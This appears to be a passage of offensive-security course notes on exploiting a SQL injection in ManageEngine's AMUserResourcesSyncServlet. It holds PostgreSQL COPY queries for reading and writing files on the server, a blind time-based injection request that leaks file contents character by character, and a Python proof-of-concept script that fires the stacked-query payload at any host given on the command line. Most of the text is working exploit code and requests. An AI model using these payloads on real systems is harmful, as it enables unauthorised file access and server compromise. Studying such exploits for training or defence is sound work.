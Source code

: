 ```
CREATE temp table awae (content text);
COPY awae from $$c:\awae.txt$$;
SELECT content from awae;
DROP table awae;
```
Listing 34 - Reading content from file C:\awae.txt


We can implement this attack in a blind time-based query as follows:
```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;create+temp+table+awae+(content+text);copy+awae+from+$$c:\awae.txt$$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(10)+end;--+ HTTP/1.0
Host: manageengine:8443
```
Listing 35 - Reading the first character of the fle C:\awae.txt and comparing it with the letter "h". If the letter is "h", sleep for 10 seconds.

```
COPY (SELECT $$offsec$$) to $$c:\\offsec.txt$$;
```
Listing 36 - A simple query that will write to the disk in c:\

We can translate that into the following request:

```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+ HTTP/1.0
Host: manageengine:8443
```
Listing 37 - Writing to the file system using our SQL Injection vulnerability


```
 └─$ cat poc-me3.py                     
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def main():
    if len(sys.argv) != 2:
        print("(+) usage %s <target>" % sys.argv[0])
        print("(+) eg: %s target" % sys.argv[0])
        sys.exit(1)
    
    t = sys.argv[1]
    #proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}
   
    #sqli = ";"
    #sqli = ";SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+"
    #sqli = "+UNION+SELECT+CASE+WHEN+(SELECT+1)=1+THEN+1+ELSE+0+END"
    #sqli = "+UNION+SELECT+1"
    #sqli = ";select+pg_sleep(10);"
    sqli = ";COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+"

    #r = requests.get('https://%s:8443/servlet/AMUserResourcesSyncServlet' % t, 
    #                  params='ForMasRange=1&userId=1%s' % sqli, verify=False, proxies=proxies)
    r = requests.get('https://%s:8443/servlet/AMUserResourcesSyncServlet' % t, 
                      params='ForMasRange=1&userId=1%s' % sqli, verify=False)
    
    print(r.text)
    print(r.headers)

if __name__ == '__main__':
    main()
```